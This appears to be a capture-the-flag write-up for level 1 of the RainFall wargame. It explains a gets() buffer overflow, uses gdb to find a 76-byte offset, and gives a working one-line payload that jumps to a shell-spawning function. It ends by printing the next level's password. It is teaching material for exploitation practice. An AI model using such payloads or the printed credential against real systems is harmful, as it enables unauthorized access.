 # Level 1

<h3>source.c</h3>

```console
void run() {
  fwrite("Good... Wait what?\n", 1, 19, stdout);
  system("/bin/sh");
}

void main() {
  char str[64];

  gets(str);
}
```

<h3>Step</h3>

This program is using the function `gets` with is unsafe and vulnerable to `buffer overflow` exploit

We can see that there is a function `run()` which will spawn a shell, but main function never call this function

We needs to find a way to run the call function `run()`

<h3>Exploit</h3>

We will use the vulnerability of `gets` function to overwrite the RET address, so when the function finish, it will jump to the address that we want to

Base on the assembly code, the stack should like something like this

```console
+------------+        -> esp
|  16 bytes  |        -> buffer for esp (0x50 or 80 bytes) each line represent 16 bytes
|  16 bytes  |        -> esp+0x10 start of the str pointer
|  16 bytes  |        
|  16 bytes  |
|  16 bytes  |        -> end of the str pointer (total 64 bytes)
+------------+
|   4 bytes  |        -> ebp
+------------+
|   4 bytes  |        -> RET (EIP)
+------------+
```

Theoretically by writing 64 bytes + 4 bytes (ebp) + 4 bytes (RET) should overwrite the return address

But the position of RET (EIP) might not be directly under the `ebp`, as compiler padding (alignment) can increase the size of the stack

We can see that there is an aligment at the start of the main function

```console
0x08048483 <+3>:	and    esp,0xfffffff0       -> bit alignment
```

Lets use gdb to be check on how much bytes we needs to write before we can overwrite the `RET`

```console
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   ebp
   0x08048481 <+1>:	mov    ebp,esp
   0x08048483 <+3>:	and    esp,0xfffffff0
   0x08048486 <+6>:	sub    esp,0x50
   0x08048489 <+9>:	lea    eax,[esp+0x10]
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
(gdb) break *0x08048495                                                       -> set breakpoint before the return command
Breakpoint 1 at 0x8048495
(gdb) r <<< $(python -c "print 'a'*64")                                       -> print 64 'a' char and run the program
Starting program: /home/user/level1/level1 <<< $(python -c "print 'a'*64")

Breakpoint 1, 0x08048495 in main ()
(gdb) info registers                                                          -> get all the registers information
eax            0xbffff6b0	-1073744208
ecx            0xb7fd28c4	-1208145724
edx            0xbffff6b0	-1073744208
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff6a0	0xbffff6a0
ebp            0xbffff6f8	0xbffff6f8
esi            0x0	0
edi            0x0	0
eip            0x8048495	0x8048495 <main+21>
eflags         0x200286	[ PF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) x/24wx $esp
0xbffff6a0:	0xbffff6b0	0x0000002f	0xbffff6fc	0xb7fd0ff4                    -> esp start at 0xbffff6a0
0xbffff6b0:	0x61616161	0x61616161	0x61616161	0x61616161                    -> all the 'a' char (0x61) that we give to the programs
0xbffff6c0:	0x61616161	0x61616161	0x61616161	0x61616161
0xbffff6d0:	0x61616161	0x61616161	0x61616161	0x61616161
0xbffff6e0:	0x61616161	0x61616161	0x61616161	0x61616161                    -> the write stops here with 64 * a
0xbffff6f0:	0x08048400	0x00000000	0x00000000	0xb7e454d3                    -> 0xbffff6f0 contains the EBP plus some empty paddings before we reach the RET address
```

As we can see from the stack frame above, 64 * a is not enough to overwrite the return pointer

We need to add the total byte of ebp + the extra padding in order to reach the RET

So we need to write a total of `64 + 12 = 76 char` as an offset before we could overwrite the RET

Now lets find the address of the `run()`

```console
(gdb) p run
$1 = {<text variable, no debug info>} 0x8048444 <run>
```

Great! We have the address of the `run()`, now we just need to pack everything together and give it to the program

The address need to be written in reverse because of little endian

The `cat -` is needed as we want the spawned shell to stay open and this is the work around

```console
level1@RainFall:~$ (python -c "print 'a' * 76 + '\x44\x84\x04\x08'"; cat - ) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```


